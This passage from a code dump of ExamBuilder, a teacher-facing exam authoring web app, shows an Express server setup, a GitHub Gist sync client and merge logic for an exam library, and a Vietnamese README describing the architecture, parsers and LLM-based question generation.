const syncRoutes = require('./routes/syncRoutes');
const templateRoutes = require('./routes/templateRoutes');
const templatePromptRoutes = require('./routes/templatePromptRoutes');
const { errorHandler } = require('./errorHandler');

const app = express();
const PORT = process.env.PORT || 3000;

app.use(express.json({ limit: '5mb' }));
app.use(express.static(path.join(__dirname, '..', 'frontend')));
app.use('/parser', express.static(path.join(__dirname, 'parser')));
app.use('/vendor/docx', express.static(path.join(__dirname, '..', 'node_modules', 'docx', 'dist')));
app.use('/vendor/mammoth', express.static(path.join(__dirname, '..', 'node_modules', 'mammoth')));
app.use('/vendor/katex', express.static(path.join(__dirname, '..', 'node_modules', 'katex', 'dist')));
// Cung thu muc voi backgroundRoutes de anh vua upload mo duoc khi doi EXAM_BACKGROUNDS_DIR.
app.use('/backgrounds', express.static(process.env.EXAM_BACKGROUNDS_DIR || path.join(__dirname, '..', 'resources', 'backgrounds')));

app.use('/api/exams', examRoutes);
app.use('/api/backgrounds', backgroundRoutes);
app.use('/api/settings', settingsRoutes);
app.use('/api/models', modelRoutes);
app.use('/api/resources', resourceRoutes);
app.use('/api/generate', generateRoutes);
app.use('/api/archive', archiveRoutes);
app.use('/api/sync', syncRoutes);
app.use('/api/templates', templateRoutes);
app.use('/api/template-prompts', templatePromptRoutes);
app.use('/api/template-export', require('./routes/templateExportRoutes'));
app.use(errorHandler);

app.listen(PORT, () => {
  console.log(`Server running at http://localhost:${PORT}`);
});

```

### FILE: backend/sync/gistClient.js

```javascript
'use strict';

/**
 * Client toi thieu cho GitHub Gist API, dung `fetch` toan cuc (Node >= 18;
 * du an chay Node 24). Chi 3 thao tac: doc file thu vien, tao gist moi,
 * ghi de file thu vien. Token luu plaintext trong SYNC_SETTINGS - nen dung
 * fine-grained PAT chi co quyen `gist`.
 */

// Ghi de duoc qua env var chi de test (tro toi mock server cuc bo) - giong
// EXAM_DB_PATH trong backend/database.js.
const GITHUB_API = process.env.GITHUB_API_BASE || 'https://api.github.com';
const LIBRARY_FILENAME = 'exambuilder-library.json';
const GIST_DESCRIPTION = 'ExamBuilder - thu vien de kiem tra (dong bo PC <-> Android)';

function authHeaders(token) {
  return {
    Authorization: `Bearer ${token}`,
    Accept: 'application/vnd.github+json',
    'X-GitHub-Api-Version': '2022-11-28',
    'User-Agent': 'ExamBuilder'
  };
}

async function readError(res) {
  let detail = '';
  try {
    const body = await res.json();
    detail = body && body.message ? ` - ${body.message}` : '';
  } catch {
    /* body khong phai JSON */
  }
  if (res.status === 401) return new Error(`GitHub tu choi token (HTTP 401${detail}). Kiem tra lai Personal Access Token.`);
  if (res.status === 403) return new Error(`GitHub chan yeu cau (HTTP 403${detail}). Token co thieu quyen "gist" hoac dang bi gioi han tan suat.`);
  if (res.status === 404) return new Error(`Khong tim thay Gist (HTTP 404${detail}). Kiem tra lai Gist ID.`);
  if (res.status === 429) return new Error(`GitHub gioi han tan suat (HTTP 429${detail}). Thu lai sau it phut.`);
  return new Error(`Loi GitHub API (HTTP ${res.status}${detail}).`);
}

/**
 * Tra ve noi dung file thu vien (chuoi JSON) hoac null neu gist chua co file
 * do. Xu ly ca truong hop GitHub cat bot file lon (> 1MB) qua `truncated`.
 */
async function getLibrary(token, gistId) {
  if (!token) throw new Error('Chua cau hinh GitHub token.');
  if (!gistId) throw new Error('Chua cau hinh Gist ID.');

  const res = await fetch(`${GITHUB_API}/gists/${encodeURIComponent(gistId)}`, { headers: authHeaders(token) });
  if (!res.ok) throw await readError(res);

  const gist = await res.json();
  const file = gist.files && gist.files[LIBRARY_FILENAME];
  if (!file) return null;
  if (file.truncated && file.raw_url) {
    const rawRes = await fetch(file.raw_url, { headers: authHeaders(token) });
    if (!rawRes.ok) throw await readError(rawRes);
    return await rawRes.text();
  }
  return file.content != null ? file.content : null;
}

/**
 * Tao gist secret moi chua file thu vien. Tra ve { id, html_url }.
 */
async function createGist(token, content) {
  if (!token) throw new Error('Chua cau hinh GitHub token.');

  const res = await fetch(`${GITHUB_API}/gists`, {
    method: 'POST',
    headers: { ...authHeaders(token), 'Content-Type': 'application/json' },
    body: JSON.stringify({
      description: GIST_DESCRIPTION,
      public: false,
      files: { [LIBRARY_FILENAME]: { content } }
    })
  });
  if (!res.ok) throw await readError(res);

  const gist = await res.json();
  return { id: gist.id, html_url: gist.html_url };
}

/**
 * Ghi de file thu vien trong gist da co. Tra ve { id, html_url }.
 */
async function updateGist(token, gistId, content) {
  if (!token) throw new Error('Chua cau hinh GitHub token.');
  if (!gistId) throw new Error('Chua cau hinh Gist ID.');

  const res = await fetch(`${GITHUB_API}/gists/${encodeURIComponent(gistId)}`, {
    method: 'PATCH',
    headers: { ...authHeaders(token), 'Content-Type': 'application/json' },
    body: JSON.stringify({ files: { [LIBRARY_FILENAME]: { content } } })
  });
  if (!res.ok) throw await readError(res);

  const gist = await res.json();
  return { id: gist.id, html_url: gist.html_url };
}

module.exports = { LIBRARY_FILENAME, GIST_DESCRIPTION, getLibrary, createGist, updateGist };

```

### FILE: backend/sync/library.js

```javascript
'use strict';

const LIBRARY_SCHEMA = 'exambuilder/library@1';

function nowIso() {
  return new Date().toISOString();
}

// Chuan hoa moc thoi gian ve ISO 8601 UTC de so sanh chuoi luon dung thu tu,
// bat ke nguon la SQLite (strftime) hay Date.toISOString() cua client kia.
function toIso(value) {
  if (!value) return null;
  const t = Date.parse(String(value).includes('T') ? value : `${value}Z`);
  return Number.isNaN(t) ? String(value) : new Date(t).toISOString();
}

function emptyLibrary() {
  return { schema: LIBRARY_SCHEMA, updated_at: nowIso(), exams: [] };
}

// --- Chu de mau (theme) dong bo kem thu vien ---------------------------------
// Chi dong bo `theme_id`; co chu (font scale) van cuc bo tung may. Luat hop
// nhat KHAC voi de: "lan doi gan nhat thang" theo `updated_at`, hoa -> primary.
const THEME_ID_RE = /^[a-z][a-z0-9-]{0,39}$/;

function sanitizeTheme(raw) {
  if (!raw || typeof raw !== 'object') return null;
  const id = typeof raw.id === 'string' ? raw.id.trim() : '';
  if (!THEME_ID_RE.test(id)) return null;
  return { id, updated_at: toIso(raw.updated_at) || null };
}

function themeTime(theme) {
  if (!theme || !theme.updated_at) return 0;
  const t = Date.parse(theme.updated_at);
  return Number.isNaN(t) ? 0 : t;
}

/**
 * Chon ban theme "moi hon" giua 2 ben. Chuan hoa truoc (id sai -> null).
 * Bang moc thoi gian -> giu `primary` de ket qua tat dinh.
 */
function pickNewerTheme(primary, secondary) {
  const p = sanitizeTheme(primary);
  const s = sanitizeTheme(secondary);
  if (!p) return s;
  if (!s) return p;
  return themeTime(s) > themeTime(p) ? s : p;
}

/**
 * Chuan hoa 1 muc de trong thu vien: chi giu dung cac truong can thiet, ep
 * kieu nhe nhang de merge/so sanh on dinh giua 2 client.
 */
function normalizeExam(raw) {
  if (!raw || typeof raw !== 'object' || !raw.exam_id) return null;
  const exam = {
    exam_id: String(raw.exam_id),
    title: raw.title == null ? '' : String(raw.title),
    subject: raw.subject == null ? '' : String(raw.subject),
    duration_minutes: raw.duration_minutes == null ? null : Number(raw.duration_minutes),
    school_header: raw.school_header == null ? '' : String(raw.school_header),
    blocks: Array.isArray(raw.blocks) ? raw.blocks : [],
    created_at: toIso(raw.created_at) || toIso(raw.updated_at) || nowIso(),
    updated_at: toIso(raw.updated_at) || toIso(raw.created_at) || nowIso(),
    deleted_at: toIso(raw.deleted_at)
  };
  // Keep the optional render-critical snapshot as JSON data. Binary assets belong
  // in the asset store and are represented here only by manifest references.
  if (raw.template_binding && typeof raw.template_binding === 'object' && !Array.isArray(raw.template_binding)) {
    exam.template_binding = raw.template_binding;
  }
  return exam;
}

/**
 * SAVED_EXAM rows (payload_json + cot) -> library object.
 */
function rowsToLibrary(rows) {
  const exams = [];
  for (const row of rows || []) {
    let payload = {};
    try {
      payload = JSON.parse(row.payload_json || '{}');
    } catch {
      payload = {};
    }
    const exam = normalizeExam({
      exam_id: row.exam_id,
      title: row.title != null ? row.title : payload.title,
      subject: row.subject != null ? row.subject : payload.subject,
      duration_minutes: row.duration_minutes != null ? row.duration_minutes : payload.duration_minutes,
      school_header: row.school_header != null ? row.school_header : payload.school_header,
      blocks: payload.blocks,
      template_binding: payload.template_binding,
      created_at: row.created_at,
      updated_at: row.updated_at,
      deleted_at: row.deleted_at
    });
    if (exam) exams.push(exam);
  }
  return { schema: LIBRARY_SCHEMA, updated_at: nowIso(), exams };
}

/**
 * library object -> danh sach row de UPSERT vao SAVED_EXAM.
 */
function libraryToRows(library) {
  const exams = (library && Array.isArray(library.exams)) ? library.exams : [];
  return exams
    .map(normalizeExam)
    .filter(Boolean)
    .map(e => ({
      exam_id: e.exam_id,
      title: e.title,
      subject: e.subject,
      duration_minutes: e.duration_minutes,
      school_header: e.school_header,
      payload_json: JSON.stringify({
        title: e.title,
        subject: e.subject,
        duration_minutes: e.duration_minutes,
        school_header: e.school_header,
        blocks: e.blocks,
        ...(e.template_binding ? { template_binding: e.template_binding } : {})
      }),
      created_at: e.created_at,
      updated_at: e.updated_at,
      deleted_at: e.deleted_at
    }));
}

/**
 * Doc bat ky thu gi lay ve tu Gist (chuoi JSON hoac object) thanh library
 * hop le. Loi cu phap / cau truc sai -> library rong (khong nem loi de mot
 * lan push dau tien van chay duoc).
 */
function parseLibrary(input) {
  let obj = input;
  if (typeof input === 'string') {
    try {
      obj = JSON.parse(input);
    } catch {
      return emptyLibrary();
    }
  }
  if (!obj || typeof obj !== 'object' || !Array.isArray(obj.exams)) {
    return emptyLibrary();
  }
  const out = {
    schema: obj.schema || LIBRARY_SCHEMA,
    updated_at: obj.updated_at || nowIso(),
    exams: obj.exams.map(normalizeExam).filter(Boolean)
  };
  const theme = sanitizeTheme(obj.theme);
  if (theme) out.theme = theme;
  return out;
}

/**
 * Hop nhat 2 thu vien theo exam_id, "primary thang" tuyet doi khi trung id.
 * Union toan bo id o ca 2 ben. Rieng `theme` KHONG theo huong: "lan doi gan
 * nhat thang" (xem pickNewerTheme).
 *   - Pull : mergeLibraries(cloud, local)  -> ghi ket qua vao may
 *   - Push : mergeLibraries(local, cloud)  -> ghi ket qua len Gist
 */
function mergeLibraries(primary, secondary) {
  const p = parseLibrary(primary);
  const s = parseLibrary(secondary);
  const byId = new Map();
  for (const exam of s.exams) byId.set(exam.exam_id, exam);
  for (const exam of p.exams) byId.set(exam.exam_id, exam);
  const out = {
    schema: LIBRARY_SCHEMA,
    updated_at: nowIso(),
    exams: Array.from(byId.values()).sort((a, b) => (b.updated_at || '').localeCompare(a.updated_at || ''))
  };
  const theme = pickNewerTheme(p.theme, s.theme);
  if (theme) out.theme = theme;
  return out;
}

/**
 * Bo cac tombstone qua cu (mac dinh > 90 ngay) de file Gist khong phinh mai.
 */
function purgeOldTombstones(library, days = 90) {
  const lib = parseLibrary(library);
  const cutoff = Date.now() - days * 86400000;
  const out = {
    schema: LIBRARY_SCHEMA,
    updated_at: nowIso(),
    exams: lib.exams.filter(e => {
      if (!e.deleted_at) return true;
      const t = Date.parse(e.deleted_at);
      return Number.isNaN(t) || t >= cutoff;
    })
  };
  if (lib.theme) out.theme = lib.theme;
  return out;
}

function summarize(library) {
  const lib = parseLibrary(library);
  const active = lib.exams.filter(e => !e.deleted_at).length;
  return { total: lib.exams.length, active, tombstones: lib.exams.length - active };
}

module.exports = {
  LIBRARY_SCHEMA,
  emptyLibrary,
  normalizeExam,
  rowsToLibrary,
  libraryToRows,
  parseLibrary,
  sanitizeTheme,
  pickNewerTheme,
  mergeLibraries,
  purgeOldTombstones,
  summarize
};

```

### FILE: documents/README.md

````markdown
# ExamBuilder

Web App nội bộ giúp **giáo viên** biên soạn đề kiểm tra nhanh — từ nội dung do AI (Gemini Pro) sinh ra, từ tệp có sẵn (JSON/CSV/TXT), hoặc nhập tay qua biểu mẫu — rồi xem trước ở 2 chế độ (Giáo viên / Học sinh), chỉnh sửa trực tiếp trên đề, trộn câu hỏi để sinh nhiều mã đề chống quay cóp, xuất file PDF/Word để in, và chia sẻ đề qua link.

Không có đăng nhập/đăng ký — mở ứng dụng lên là dùng được ngay.

## Mẫu đề (bản đang phát triển)

Chạy `npm start`, mở `http://localhost:3000`, chọn **Mẫu đề** trên thanh công cụ. Có đúng 10 mẫu gốc với số câu cố định; bấm **Tạo bản sao tùy chỉnh** để thêm/xóa/sắp xếp câu rồi lưu. Bên dưới mẫu có ba nhóm prompt (toàn đề, slot chọn, kiểm tra/sửa) và bộ chọn ChatGPT, Claude, Gemini, DeepSeek, Grok. Bấm **Copy Prompt**, dùng AI ngoài để sinh **văn bản**, dán kết quả vào ô kiểm tra, xem diff rồi xác nhận áp dụng. Không cần API key cho luồng này.

Có thể tải ảnh nền PNG/JPG/WebP/SVG, nhập DOCX/PDF theo chế độ nhận diện text native và duyệt nội dung hoặc lưu tệp làm tài nguyên nền. PDF scan không được OCR; các vùng cần điền phải xử lý thủ công. Ảnh nền hiển thị trong preview web; tối đa 10 trang PDF đầu có thể chuyển thành PNG nền, nhưng vị trí vùng điền nhập tay chưa được áp đầy đủ khi xuất. DOCX nhập làm nền hiện chỉ lưu tệp gốc, chưa raster hóa. Bản DOCX theo mẫu có HS/GV/đáp án và thiết lập giấy; ảnh PNG/JPEG đã quản lý được nhúng làm nền hoặc minh họa, còn WebP/SVG và nền riêng trang giữa/cuối có fallback/cảnh báo. Giới hạn trang mới là ước lượng. **In / Lưu PDF** dùng hộp thoại in trình duyệt, cần kiểm tra bản in thật trước khi phát đề. Android giữ snapshot template, điểm và cấu hình giấy; nền/hai cột vẫn dùng fallback. Theo dõi phần đã hoàn tất và phần còn thiếu trong [TEMPLATE_SYSTEM_PROGRESS.md](./TEMPLATE_SYSTEM_PROGRESS.md).

---

## Mục lục

- [1. Giới thiệu & Mục đích](#1-giới-thiệu--mục-đích)
- [2. Kiến trúc tổng thể](#2-kiến-trúc-tổng-thể)
- [3. Kiến trúc chi tiết](#3-kiến-trúc-chi-tiết)
- [4. Tính năng & Đầu ra](#4-tính-năng--đầu-ra)
- [5. Cài đặt & Sử dụng](#5-cài-đặt--sử-dụng)
- [6. Kiểm thử (Testing)](#6-kiểm-thử-testing)
- [7. Giới hạn đã biết](#7-giới-hạn-đã-biết--known-limitations)

---

## 1. Giới thiệu & Mục đích

Soạn một đề kiểm tra thủ công (gõ từng câu, canh dòng nháp cho tự luận, tô đáp án đúng, tách bản học sinh khỏi bản có đáp án...) tốn nhiều thời gian lặp lại mỗi kỳ thi. **ExamBuilder** giải quyết việc đó bằng cách:

1. Chuẩn hoá một **định dạng văn bản** mà AI (Gemini Pro, hoặc bất kỳ LLM nào) có thể sinh ra hàng loạt câu hỏi đúng cấu trúc (xem [`Gemini_Prompt_Unified.txt`](../Gemini_Prompt_Unified.txt)).
2. **Phân tích (parse)** định dạng đó — hoặc tệp JSON/CSV/TXT, hoặc dữ liệu nhập tay — thành cấu trúc đề thi thống nhất.
3. Hiển thị đề ở dạng **block trực quan** (Trắc nghiệm / Tự luận), cho phép giáo viên chỉnh sửa ngay trên bản xem trước, và **bật/tắt "Chế độ Học sinh"** để kiểm tra trước khi in — chế độ này ẩn hoàn toàn đáp án và lời giải.
4. **Xuất** ra PDF (in trực tiếp) / Word (.docx) và **chia sẻ** đề qua một đường link. Link chia sẻ là bản **học sinh**: từ 13/10/2026 cả link `?data=` lẫn `GET /api/exams/shared/:code` đều bỏ đáp án, lời giải, `is_correct` và snapshot template (`backend/parser/examRedaction.js`); bản lưu của giáo viên không bị thay đổi.

## 2. Kiến trúc tổng thể

Ứng dụng là một **Web App 2 tầng** cổ điển: Frontend thuần (không framework) nói chuyện với một Backend Node.js/Express qua REST API, dữ liệu lưu trong SQLite. Phần *phân tích cú pháp* (parser) là các module ES-Module dùng chung, được backend serve tĩnh để **frontend import trực tiếp** — tránh việc phải viết lại logic parse ở hai nơi.



**Điểm thiết kế đáng chú ý:** việc *parse* dữ liệu (bước 1-3) chạy **hoàn toàn ở trình duyệt**, không round-trip qua server — giáo viên bấm "Sinh Đề Kiểm Tra" là thấy kết quả ngay lập tức. Server chỉ được gọi khi cần **lưu bền vững** để tạo link chia sẻ.

## 3. Kiến trúc chi tiết

### 3.1. Cấu trúc thư mục

```
exam-builder/
├── backend/
│   ├── database.js          # Kết nối SQLite + schema (CREATE TABLE, 3NF)
│   ├── errorHandler.js       # Middleware xử lý lỗi toàn cục (JSON đồng nhất)
│   ├── examValidation.js     # validateExamPayload() dùng chung: /api/exams/save + /api/archive
│   ├── mutex.js              # withLock() xếp hàng giao dịch ghi trên 1 kết nối SQLite
│   ├── server.js             # Khởi tạo Express, static serving, mount routes
│   ├── parser/                # Module phân tích cú pháp (dùng chung FE/BE, ESM)
│   │   ├── IQuestionParser.js     # "Interface" trừu tượng (Open/Closed Principle)
│   │   ├── TextPromptParser.js    # Parse văn bản thô theo định dạng Gemini prompt
│   │   ├── FileUploadParser.js    # Parse JSON / CSV / TXT / DOCX (mammoth)
│   │   ├── examCodeGenerator.js   # Tron & sinh nhieu ma de (Fisher-Yates + chia quota)
│   │   └── index.js               # Barrel export
│   ├── llm/                   # Module sinh đề tự động bằng LLM (xem mục 4.2)
│   │   ├── ILLMProvider.js        # "Interface" trừu tượng — hợp đồng generate(prompt)
│   │   ├── OpenAIProvider.js      # Gọi OpenAI Chat Completions API
│   │   ├── AnthropicProvider.js   # Gọi Anthropic Messages API
│   │   ├── GeminiProvider.js      # Gọi Google Generative Language API
│   │   ├── LocalGgufProvider.js   # Chạy model .gguf local qua node-llama-cpp
│   │   ├── ProviderFactory.js     # Chọn đúng provider theo model đã đăng ký (Open/Closed)
│   │   └── promptBuilder.js       # Ghép prompt từ Gemini_Prompt_Unified.txt + ngữ cảnh + yêu cầu
│   ├── sync/                  # Đồng bộ kho đề qua GitHub Gist (xem mục 4.3)
│   │   ├── library.js             # Thuần: rows <-> library, mergeLibraries (primary thắng), purge tombstone
│   │   └── gistClient.js          # Gọi GitHub Gist API (get/create/update file thư viện) qua fetch
│   └── routes/
│       ├── examRoutes.js       # REST API: save / get / share / revoke share / shared
│       ├── backgroundRoutes.js # REST API: liệt kê ảnh nền PDF trong resources/backgrounds/
│       ├── settingsRoutes.js   # REST API: cấu hình API key LLM (đọc/lưu/kiểm tra kết nối)
│       ├── modelRoutes.js      # REST API: đăng ký model cloud / tải lên model .gguf local
│       ├── resourceRoutes.js   # REST API: thư viện tài liệu tham khảo + các phần chia nhỏ
│       ├── generateRoutes.js   # REST API: sinh đề tự động (prompt -> LLM -> parser)
│       ├── archiveRoutes.js    # REST API: kho đề (lịch sử) — list / get / upsert / xóa mềm
│       └── syncRoutes.js       # REST API: cấu hình Gist + push (máy->cloud) / pull (cloud->máy)
├── frontend/
│   ├── index.html             # Layout: toolbar, tab input, khu preview, prompt reference, modal share/cài đặt/lịch sử
│   ├── style.css              # Theme engine: 18 chủ đề [data-theme] (16 sáng + 2 tối) + --ui-scale, responsive, @media print
│   ├── script.js               # State, render đề (số câu liên tục), sửa trực tiếp, export/share, nhiều mã đề, kho đề, giao diện
│   ├── promptTemplate.js       # TỰ SINH từ Gemini_Prompt_Unified.txt (tools/gen-prompt-module.js) — đừng sửa tay
│   └── promptVariants.js      # TỰ SINH từ AI_Prompts_Variants.txt (tools/gen-prompt-variants.js) — đừng sửa tay; 1 prompt/AI (Gemini/Gemini Pro/ChatGPT/DeepSeek/Claude/Grok)
├── resources/
│   ├── backgrounds/            # Ảnh nền PDF (.png/.jpg/.svg) — xem mục 4.1
│   └── image/                  # icon.png + gen-android-icons.js (sinh app icon Android)
├── tools/
│   ├── gen-prompt-module.js   # Sinh lại frontend/promptTemplate.js từ Gemini_Prompt_Unified.txt
│   └── gen-prompt-variants.js # Sinh lại frontend/promptVariants.js từ AI_Prompts_Variants.txt + quy tắc dùng chung
├── tests/                      # Bộ test Jest + Supertest (xem mục 6)
├── Gemini_Prompt_Unified.txt  # META-PROMPT: nguồn DUY NHẤT của quy tắc định dạng (dùng chung cho mọi AI)
├── AI_Prompts_Variants.txt    # Nguồn riêng theo từng AI: câu giới thiệu, lưu ý riêng, ví dụ mẫu (môn học khác nhau)
├── babel.config.cjs            # Cấu hình Babel (chỉ dùng để Jest hiểu cú pháp ESM)
└── package.json
```

> **Prompt là một meta-prompt hợp nhất.** [`Gemini_Prompt_Unified.txt`](../Gemini_Prompt_Unified.txt)
> đặc tả đầy đủ định dạng đầu ra mà `backend/parser/TextPromptParser.js` đọc được: 2 phần
> `=PHAN_1_TRAC_NGHIEM=` / `=PHAN_2_TU_LUAN=`, thẻ `[CAU_HOI]`, các trường
> `Loai/Muc_Do/De_Bai/Dap_An/Loi_Giai/So_Dong_Nhap`, ràng buộc từng loại câu (TN/DUNG_SAI/DIEN_TU/TU_LUAN),
> cách viết công thức toán (ASCII đơn giản hoặc `$...$` LaTeX), và quy tắc "chỉ xuất nội dung, không
> markdown, không khối mã". `PHẦN 2` được `promptBuilder.js` trích nguyên văn cho luồng "Sinh đề tự động",
> và `tools/gen-prompt-module.js` (`npm run gen:prompt`) sinh lại `frontend/promptTemplate.js` từ nó —
> **chỉ sửa prompt ở file `.txt`.**
>
> **Mỗi AI dán tay còn có một prompt riêng.** Khu "Prompt mẫu cho AI" trên frontend cho chọn giữa
> Gemini (thường) / Gemini Pro / ChatGPT / DeepSeek / Claude / Grok — cùng dùng chung quy tắc định
> dạng ở trên, nhưng mỗi AI có thêm 1 đoạn lưu ý riêng (đối phó xu hướng riêng của AI đó, ví dụ ChatGPT
> hay tự bọc khối mã, DeepSeek hay lộ phần suy luận `<think>`, Gemini Pro tận dụng ngữ cảnh dài) và
> 1 ví dụ mẫu riêng (mỗi AI một môn học khác nhau để minh hoạ prompt dùng được cho mọi môn). Nguồn ở
> [`AI_Prompts_Variants.txt`](../AI_Prompts_Variants.txt),
> sinh lại `frontend/promptVariants.js` bằng `tools/gen-prompt-variants.js` (đã gộp vào `npm run gen:prompt`)
> — **chỉ sửa ở file `.txt`, không hand-edit `promptVariants.js`.**

> Các thư viện xuất/nhập file (`docx` để xuất Word, `mammoth` để đọc `.docx` tải lên) được cài như dependency thường và phục vụ tĩnh qua `/vendor/docx/...` và `/vendor/mammoth/...` — không phụ thuộc CDN ngoài. Không dùng thư viện đọc Excel (`.xlsx`) do các lựa chọn phổ biến trên npm đều có lỗ hổng bảo mật chưa được vá (xem mục 7).

### 3.2. Mô hình dữ liệu (chuẩn hoá 3NF)



`LLM_SETTINGS`/`LLM_MODEL`/`RESOURCE_DOCUMENT`/`RESOURCE_SECTION` phục vụ module sinh đề tự động (mục 4.2); `SAVED_EXAM`/`SYNC_SETTINGS` phục vụ kho đề + đồng bộ Gist (mục 4.3). Cả 2 nhóm đều độc lập với 5 bảng đề thi ở trên — không có khóa ngoại nào nối chúng với nhau. `SAVED_EXAM` cố ý phi chuẩn hoá (lưu cả đề dưới dạng `payload_json`) để khớp 1:1 với file trên Gist và tránh việc dựng lại quan hệ lồng nhau ở mỗi lần đồng bộ.

Ràng buộc toàn vẹn được thực thi ngay ở tầng CSDL: `PRAGMA foreign_keys = ON`, `ON DELETE CASCADE` cho toàn bộ quan hệ cha–con, và `CHECK` constraint cho các cột enum (`block_type`, `question_type`, `difficulty_level`) — xem `backend/database.js`.

### 3.3. Luồng dữ liệu chính (Sequence)

```mermaid
sequenceDiagram
    actor GV as Giáo viên
    participant UI as script.js
    participant P as Parser (ESM, /parser/*.js)
    participant API as examRoutes.js
    participant DB as SQLite

    GV->>UI: Dán text (định dạng Gemini) / chọn file / điền form
    UI->>P: new TextPromptParser().parse(raw)\nhoặc new FileUploadParser().parse(content, filename)
    P-->>UI: [{ block_type, block_title, questions: [...] }]
    UI->>UI: renderExam() — vẽ card Trắc nghiệm/Tự luận,\ngắn contenteditable + listener đồng bộ state
    GV->>UI: Sửa nội dung / đáp án / số dòng nháp /\nbật "Chế độ Học sinh" / Zoom
    GV->>UI: Bấm "Tạo Link Chia Sẻ"
    alt Đề ngắn (Base64 < ~1.8KB)
        UI->>UI: btoa(JSON.stringify(exam)) → URL ?data=...
    else Đề dài
        UI->>API: POST /api/exams/save
        API->>DB: BEGIN; INSERT EXAM/BLOCK/QUESTION/OPTION; COMMIT
        API-->>UI: { exam_id }
        UI->>API: POST /api/exams/share { exam_id }
        API->>DB: INSERT EXAM_SHARE
        API-->>UI: { share_code } → URL ?code=...
    end
    Note over GV,UI: Mở lại URL ?code=... → GET /api/exams/shared/:code\nrenderExam() ở "Chế độ Học sinh", ẩn panel nhập liệu
```

### 3.4. Vai trò các module cốt lõi

| Module | Vai trò |
|---|---|
| `backend/database.js` | Mở kết nối SQLite (singleton), tạo schema nếu chưa có. Hỗ trợ `EXAM_DB_PATH` (env var) và `closeDb()` để test cô lập bằng CSDL in-memory. |
| `backend/routes/examRoutes.js` | 4 endpoint REST: lưu đề (transaction), đọc đề (join lồng nhau), tạo link chia sẻ, đọc đề theo link chia sẻ. |
| `backend/parser/IQuestionParser.js` | Lớp cơ sở trừu tượng — định nghĩa hợp đồng `parse(rawContent)`. Cho phép thêm định dạng đầu vào mới (Open/Closed Principle) mà không sửa code đã có. |
| `backend/parser/TextPromptParser.js` | Bóc tách văn bản thô theo cấu trúc `===SECTION===` / `[CAU_HOI]` / `Key: value` thành câu hỏi có cấu trúc; validate và ném lỗi kèm vị trí (`Phần X - Câu Y`) khi sai định dạng. |
| `backend/parser/FileUploadParser.js` | Định tuyến theo phần mở rộng tệp: `.json` (validate cấu trúc `blocks`), `.csv` (tự viết CSV parser hỗ trợ dấu phẩy/nháy kép trong field), `.txt` (uỷ quyền lại cho `TextPromptParser`), `.docx` (dùng `mammoth` trích xuất văn bản thô rồi uỷ quyền lại cho `TextPromptParser`). |
| `backend/parser/examCodeGenerator.js` | Xáo (Fisher-Yates) + chia quota `floor(total/q)` cho từng cặp (loại câu hỏi × mức độ) để sinh `q` mã đề không trùng lặp và đồng đều tỉ lệ mức độ; xáo lại thứ tự đáp án A/B/C/D cho từng câu MCQ trong mỗi mã đề. Module thuần (không phụ thuộc DOM) — dùng chung cho frontend qua `/parser/examCodeGenerator.js`. |
| `frontend/script.js` | Toàn bộ state ứng dụng (`state`), render DOM (`renderExamInto`, `renderMCQBody`, `renderEssayBody`...), đồng bộ 2 chiều state ↔ DOM qua `contenteditable`, export PDF/Word (gồm nhiều mã đề nếu có), tạo & đọc link chia sẻ, khu "Prompt mẫu cho AI" (copy 1-click), sinh nhiều mã đề, chọn/bật-tắt nền PDF. **Kho đề:** `scheduleArchiveSave()` tự lưu mọi đề (debounce 1.5s + `beforeunload`) vào `/api/archive`; modal "📚 Lịch sử" liệt kê / mở lại / xóa đề, và cấu hình + chạy Push/Pull đồng bộ Gist. |
| `backend/routes/backgroundRoutes.js` | `GET /api/backgrounds` — liệt kê file `.png`/`.jpg`/`.jpeg`/`.svg` trong `resources/backgrounds/` để dropdown "Nền PDF" ở frontend đọc. Thư mục được serve tĩnh tại `/backgrounds/<tên_file>`. |
| `backend/llm/ProviderFactory.js` | Chọn đúng lớp provider (`OpenAIProvider`/`AnthropicProvider`/`GeminiProvider`/`LocalGgufProvider`) theo `source_type`/`provider` của model đã đăng ký — thêm provider mới không cần sửa code gọi (Open/Closed Principle), theo đúng pattern của `IQuestionParser`. |
| `backend/llm/promptBuilder.js` | Trích đoạn hướng dẫn định dạng từ `Gemini_Prompt_Unified.txt`, ghép với nội dung các Phần tài liệu đã chọn và yêu cầu số lượng câu hỏi thành 1 prompt hoàn chỉnh; cũng dựng lại prompt kèm thông báo lỗi khi cần LLM tự sửa định dạng. |
| `backend/routes/generateRoutes.js` | `POST /api/generate` — endpoint "1 nút bấm ra đề": ghép prompt, gọi provider đã chọn, chạy kết quả qua `TextPromptParser` (dynamic import từ CommonJS, xem mục 4.2), tự động thử lại tối đa 2 lần nếu LLM trả sai định dạng. |
| `backend/routes/settingsRoutes.js` | REST API cấu hình API key LLM: đọc (luôn che key), lưu (upsert theo provider), và kiểm tra kết nối thử với 1 model cụ thể. |
| `backend/routes/modelRoutes.js` | REST API quản lý model: liệt kê, đăng ký model cloud, tải lên file `.gguf` (multipart qua `multer`, lưu vào `resources/models/`), xóa model (kèm xóa file nếu là model local). |
| `backend/routes/resourceRoutes.js` | REST API thư viện tài liệu tham khảo: tạo tài liệu, thêm Phần vào tài liệu, liệt kê, xóa tài liệu (CASCADE xóa Phần). |
| `backend/routes/archiveRoutes.js` | REST API kho đề (lịch sử): `GET /api/archive` (liệt kê, ẩn tombstone), `GET /:id` (payload đầy đủ), `POST` (upsert — có `exam_id` thì cập nhật tại chỗ, không thì tạo mới; **không hồi sinh** đề đã xóa), `DELETE /:id` (xóa mềm, đặt `deleted_at`). |
| `backend/routes/syncRoutes.js` | REST API đồng bộ Gist: `GET/POST /api/sync/settings` (token che khi đọc), `POST /api/sync/push` (máy → cloud: `merge(local, cloud)` → ghi Gist + ghi ngược về máy; tự tạo Gist nếu chưa có `gist_id`), `POST /api/sync/pull` (cloud → máy: `merge(cloud, local)` → ghi về máy). Chủ đề màu gửi/nhận qua body (`{ theme: { id, updated_at } }`) vì web lưu ở `localStorage`. Ghi ngược vào `SAVED_EXAM` bọc `withLock` + transaction. |
| `backend/sync/library.js` | Module thuần (unit-test được): `rowsToLibrary`/`libraryToRows` chuyển đổi 2 chiều giữa dòng `SAVED_EXAM` và file thư viện; `mergeLibraries(primary, secondary)` hợp nhất theo `exam_id` với quy tắc **"primary thắng"** tuyệt đối khi trùng id (union toàn bộ id); `purgeOldTombstones` bỏ tombstone > 90 ngày; `pickNewerTheme` chọn chủ đề màu theo **"lần đổi gần nhất thắng"** (không theo chiều). Chuẩn hoá mọi mốc thời gian về ISO 8601 UTC. |
